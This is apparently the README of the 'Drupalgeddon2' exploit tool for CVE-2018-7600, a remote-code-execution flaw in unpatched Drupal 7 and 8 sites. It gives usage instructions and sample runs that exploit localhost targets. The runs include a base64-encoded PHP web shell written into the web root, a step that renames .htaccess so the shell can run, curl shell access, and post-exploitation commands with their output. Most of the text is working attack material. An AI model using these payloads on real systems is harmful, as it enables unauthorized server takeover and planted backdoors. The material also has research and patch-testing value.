 # CVE-2018-7600 | Drupal < 7.58 / 8.x < 8.3.9 / 8.4.x < 8.4.6 / 8.5.x < 8.5.1 - 'Drupalgeddon2' RCE (SA-CORE-2018-002)

[Drupalggedon2 ~ https://github.com/dreadlocked/Drupalgeddon2/](https://github.com/dreadlocked/Drupalgeddon2/) _([https://www.drupal.org/sa-core-2018-002](https://www.drupal.org/sa-core-2018-002))_

Supports:
- Drupal **< 8.3.9** / **< 8.4.6** / **< 8.5.1** ~ `user/register` URL, attacking `account/mail` & `#post_render` parameter, using PHP's `passthru` function
- Drupal **< 7.58** ~ `user/password` URL, attacking `triggering_element_name` form & `#post_render` parameter, using PHP's `passthru` function
- **Direct commands** or Write a **PHP shell** to the web root (`./`) or sub-directories (`./sites/default/` & `./sites/default/files/`)
- **Windows** & **Linux** support

The `user/register` method was chosen for Drupal v8.x, as it will return `HTTP 200`, and render the output in the `data` JSON response _(un-comment the code for `timezone`/`#lazy_builder` method, which will return `HTTP 500` & blind!)_ _([More Information](https://gist.github.com/g0tmi1k/7476eec3f32278adc07039c3e5473708))_.

Authors:
- [Hans Topo](https://github.com/dreadlocked)  _([@\_dreadlocked](https://twitter.com/_dreadlocked))_
- [g0tmi1k](https://blog.g0tmi1k.com/) _([@g0tmi1k](https://twitter.com/g0tmi1k))_

Notes:
- For advance users/setups there is a more customizable exploit. See the `drupalgeddon2-customizable-beta` section.
- Before opening an issue, please, read the troubleshooting section at the end. Thanks!


- - -


## Usage:

```bash
$ ruby drupalgeddon2.rb
Usage: ruby drupalggedon2.rb <target>
       ruby drupalgeddon2.rb https://example.com
$
```


### Drupal v8.x Example

_Drupal v8.x < v8.3.9 / v8.4.x < v8.4.6 / v8.5.x < v8.5.1_

```bash
$ ./drupalgeddon2.rb http://localhost/drupal-8/
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://localhost/drupal-8/
--------------------------------------------------------------------------------
[!] MISSING: http://localhost/drupal-8/CHANGELOG.txt    (HTTP Response: 404)
[+] Found  : http://localhost/drupal-8/core/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal?: v8.x
--------------------------------------------------------------------------------
[*] Testing: Code Execution
[i] Payload: echo TTTBJJBP
[+] Result : TTTBJJBP
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Writing To Web Root (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee s.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake shell:   curl 'http://localhost/drupal-8/s.php' -d 'c=hostname'
ubuntu140045x64-drupal>> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
ubuntu140045x64-drupal>>
ubuntu140045x64-drupal>> uname -a
Linux ubuntu140045x64-drupal 3.13.0-144-generic #193-Ubuntu SMP Thu Mar 15 17:03:53 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
ubuntu140045x64-drupal>>
```


### Drupal v7.x Example

_Drupal < v7.58_

```bash
$ ./drupalgeddon2.rb http://localhost/drupal-7/
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://localhost/drupal-7/
--------------------------------------------------------------------------------
[+] Found  : http://localhost/drupal-7/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal!: v7.31
--------------------------------------------------------------------------------
[*] Testing: Code Execution
[i] Payload: echo TKYPVVJJ
[+] Result : TKYPVVJJ
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Writing To Web Root (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee s.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake shell:   curl 'http://localhost/drupal-7/s.php' -d 'c=hostname'

ubuntu140045x64-drupal>> uptime
 14:52:33 up 4 days,  3:35,  1 user,  load average: 0.00, 0.01, 0.05
ubuntu140045x64-drupal>>
ubuntu140045x64-drupal>> whoami
www-data
ubuntu140045x64-drupal>>
```


#### Direct Commands / Non PHP Shell (aka File-Less Method)

If either you do not want to even try and write a PHP web shell to the web server, edit the file as shown _(it will fall back if it can't find a writeable location anyway)_:

```ruby
writeshell = false
```

**Example**

```bash
$ ./drupalgeddon2.rb http://localhost/drupal-nonwrite/
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://localhost/drupal-nonwrite/
--------------------------------------------------------------------------------
[!] MISSING: http://localhost/drupal-nonwrite/CHANGELOG.txt    (HTTP Response: 404)
[+] Found  : http://localhost/drupal-nonwrite/core/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal?: v8.x
--------------------------------------------------------------------------------
[*] Testing: Code Execution
[i] Payload: echo HYCBAIET
[+] Result : HYCBAIET
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Writing To Web Root (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee s.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[!] Target is NOT exploitable for some reason [2] (HTTP Response: 404)...    Might not have write access?
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Writing To Web Root (sites/default/)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee sites/default/s.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[!] Target is NOT exploitable for some reason [2] (HTTP Response: 404)...    Might not have write access?
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Writing To Web Root (sites/default/files/)
[i] Moving : ./sites/default/files/.htaccess
[i] Payload: mv -f sites/default/files/.htaccess sites/default/files/.htaccess-bak; echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee sites/default/files/s.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[!] Target is NOT exploitable for some reason [1] (HTTP Response: 403)...    May not be able to execute PHP from here?
[!] FAILED: Couldn't find writeable web path
--------------------------------------------------------------------------------
[*] Dropping back direct commands
drupalgeddon2>> lsb_release -a
Distributor ID:	Ubuntu
Description:	Ubuntu 14.04.5 LTS
Release:	14.04
Codename:	trusty
drupalgeddon2>>
```


#### Proxy Support

For proxy support _(e.g. Burp)_, edit the file, replacing with your values. Example:

```ruby
proxy_addr = "192.168.0.130"
proxy_port = 8080
```


- - -


#### Experimental but usable: drupalgeddon2-customizable-beta

`drupalgeddon2-customizable-beta` is intended for more advance users as its more customizable. It allows you to specify some more parameters as the PHP method to use (not only `system()` or `passthru()`) and the way to reach user/password form.

Usage examples:

```
$ ruby drupalgeddon2-customizable-beta https://example.com 7 id passthru 0

1st parameter: Target URL
2nd parameter: Drupal version
3rd parameter: Command
4th parameter: PHP method to use (e.g. passthru, exec, system, assert...)
5th parameter: 0 for "/?q=user/password", 1 for "/user/password"
```


- - -


## Troubleshooting:

- Sometimes, websites may redirect to another path where Drupal exists (such as `30x` responses). Solution: Make sure you are using the correct Drupal path.
- Drupal v7.x - If `/user/password` form is disabled, maybe you should find another form, but remember to change the exploit. Solution: `form_id` parameter will change depending on the form used to exploit the vulnerability.


- - -


## Links:

- Drupal SA-CORE-2018-002 Advisory ~ https://www.drupal.org/sa-core-2018-002
- CVE ~ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7600
- Write up & Research ~ https://research.checkpoint.com/uncovering-drupalgeddon-2/
- cURL commands/sample PoC ~ https://gist.github.com/g0tmi1k/7476eec3f32278adc07039c3e5473708
